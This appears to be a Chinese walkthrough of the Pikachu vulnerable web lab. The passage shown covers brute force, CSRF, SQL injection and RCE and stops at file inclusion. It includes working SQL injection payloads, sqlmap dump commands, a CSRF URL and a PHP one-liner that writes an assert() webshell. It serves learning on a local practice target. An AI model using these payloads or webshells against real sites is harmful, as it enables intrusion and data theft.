


# Pikachu

`更新时间：2023-12-27`

鉴于已经完成了DVWA，该靶场的讲解将会比较简洁，当作复习DVWA的各项操作

## 暴力破解

### 基于表单的暴力破解

输入admin和admin回车，提示username or password is not exists，看来不能先确定用户名

> 

直接爆破两者

> 

最后得到用户名为admin，密码为123456

> 

### 验证码绕过(on server)

进行抓包，这里抓包需要输入正确验证码。为了节省时间，假设已知用户名为admin，爆破密码。

> 

因为服务器不刷新验证码，直接得到密码为12456

> 

### 验证码绕过(on client)

前端的验证码形同虚设，直接删掉参数即可，但是在抓包的时候同样需要输入正确的验证码

> 

### token防爆破

这个在DVWA里我们也见过了，简单带过，首先抓包标记payload

> 

payload1填入常见密码，重点是payload2，首先获取token

> 

> 

> 

注意，带有token的爆破只能使用单线程

> 

密码为123456

> 

## CSRF

### CSRF(get)

根据提示，登录其中一个账号，这里我使用vince

> 

登陆进入后，发现是修改个人信息的页面

> 

点击修改信息，并进行抓包

> 

修改sex为male并放行，发现修改成功

> 

直接构造CSRF攻击的payload

```url
http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=male&phonenum=U HAS BEEN HACKED&add=chain&email=vince%40pikachu.com&submit=submit
```

> 

### CSRF(POST)

本题使用allen，因为是POST，不能在url栏直接构造payload，我们需要构造一个恶意网页，这里直接使用BurpSuite自带的工具。抓包，生成CSRF POC

> 

修改相关信息，生成HTML

> 

进入HTML，点击提交，修改成功

> 

## SQL-Injection

### 数字型注入(post)

直接抓包，发送到Repeater

> 

判断字段数

> 

判断回显点

> 

查看数据库和版本

> 

查询所有表

> 

查询users下所有字段

> 

查询字段内容

> 

### 字符型注入(get)

判断注入点

> 

> 

确定存在注入点，且单引号闭合，判断字段数

> 

判断回显点

> 

下面步骤省略

### 搜索型注入

根据报错信息，数字后多了个百分号

> 

> 

### xx型注入

引号后多了个括号

> 

> 

### insert/update注入

进入注册页面，构建报错注入的payload。查询数据库

```sql
1' and extractvalue(1,concat(0x5c,(database()))) and '1'='1
```

> 

查询表

```sql
1' and extractvalue(1,concat(0x5c,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1))) and '1'='1
```

> 

查询users下字段

```sql
1' and extractvalue(1,concat(0x5c,(select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 1,1))) and '1'='1
```

> 

查询字段内容，这里因为长度限制，所以使用mid函数截取获取到的内容，每次十个字符长度

```sql
1' and extractvalue(1,concat(0x7e,mid((select password from pikachu.users limit 0,1),1,10))) and '1'='1
```

> 

> 

> 

> 

*注： `mid(arg1, arg2, arg3)` ，mid函数可以截取一段文本中的内容，有三个参数，arg1是需要截取的文本内容，arg2是截取位置，从1开始，arg3是截取长度*

### delete注入

有一个留言板，提交后可以删除

> 

当光标移动到删除上的时候，左下角出现请求

> 

抓包，发现是GET传参，发送到Repeater构建payload，注意需要转换为url编码

> 

查询数据库

```sql
1%20and%20extractvalue(1,concat(0x5c,(database())))
```

> 

以下省略

### http header 注入

使用账号admin，密码123456登录，发现user agent字样

> 

抓包，将user agent改为引号，出现报错

> 

查询数据库

```sql
1' and extractvalue(1,concat(0x5c,(database()))) and '1'='1
```

> 

以下省略

### 盲注(base on boolian)

直接开始布尔盲注，先构建payload。确定字符类型注入，单引号闭合

> 

判断数据库名长度是否小于9

```sql
1' and length((select database()))<9 #
```

> 

数据库名第一个字符是否大于小写a

```sql
1' and ascii(substr((select database()),1,1))>'a' #
```

> 

以下步骤省略，详见<a href="https://github.com/Ki1z/CTF/blob/main/BUUCTF/Basic/sqli-labs.md">sqli-labs</a>的Less-5

### 盲注(base on time)

下面来讲解sqlmap的用法，首先查询当前数据库

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php --current-db --technique=T --forms --time-sec 2
```

- `-u` 指定需要注入的url

- `--current-db` 查询当前数据库

- `--technique=T` 指定使用的注入方式，这里的T是时间注入

- `--forms` 自动从url中获取表单

- `--time-sec` 指定延迟，这里是两秒。非必加，sqlmap会自动判断

> 

查询所有表

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php -D pikachu -tables --technique=T --forms
```

- `-D` 指定数据库，这里指定的是pikachu数据库

- `-tables` 查询所有表

> 

查询users下所有字段

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php -D pikachu -T users -columns --technique=T --forms
```

- `-T` 指定表

- `-columns` 查询所有字段

> 

查字段内容

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php -D pikachu -T users -C username,password -dump --technique=T --forms
```

- `-C` 指定字段

- `-dump` 查询字段内容

> 

*注：password字段内容的括号内为自动解码得到的结果*

### 宽字节注入

先来简单说说宽字节注入的原理。在之前做某些sql注入题的时候，会遇到报错信息中包含 `/'`的情况，这说明在制作PHP的时候，程序员使用相关函数对输入的敏感内容进行了转义，也就是在特殊字符前加上左斜杠，这样sql在查询时就会将其作为字符串，避免了sql注入的发生。而在使用中文编码的数据库中，因为汉字数量庞大，使用了两个字节进行编码。但此时就会出现一种情况，假设左斜杠的编码为%5c，在中文数据库中一定会有某些汉字的两个字节的编码中存在%5c，这就跟汉字的偏旁和部首一样，我们输入 `'` ，后台转义后的结果是 `%5c'` ，如果我们输入 `%df'` ，后台转义后的结果将会是 `%df%5c'` ，而此时 `%df%5c` 恰巧对应了某个汉字，将左斜杠消除了

判断字段数

> 

*注：宽字节注入的报错只有图中的一种类型*

判断回显点

> 

查询数据库和版本

> 

以下省略

## RCE

RCE，remote command/code execute的简称，在DVWA中即是Command Injection

### exec "ping"

输入127.0.0.1，出现结果

> 

使用管道符

> 

### exec "eval"

输入phpinfo();，直接跳出了相关页面

> 

说明后台对输入的内容没有进行任何过滤，下面生成一个一句话木马文件

```php
fputs(fopen('shell.php','w'),'<?php assert($_POST[admin]);?>');
```

- `fputs(arg1, arg2[, arg3])` 写入文件函数，有三个参数，arg1指定要写入的文件，arg2指定写入的字符串，arg3可选，指定写入的最大字节数

- `fopen(arg1, arg2[, arg3, arg4])` 打开文件函数，有四个参数，arg1指定需要打开的文件，arg2指定该文件的访问方式，arg3指定是否开启检索，arg4指定文件句柄的环境

- `'w'` w是fopen()函数中第二个参数的其中一项，指以写入方式打开文件，并将文件大小截为0。如果文件不存在，则创建该文件

- `assert()` 断言函数，此处是将括号内的内容作为PHP代码执行

文件创建成功

> 

使用蚁剑连接，注意选择base64编码方式，default无法连接

> 

## File Inclusion

### File Inclusion(local)

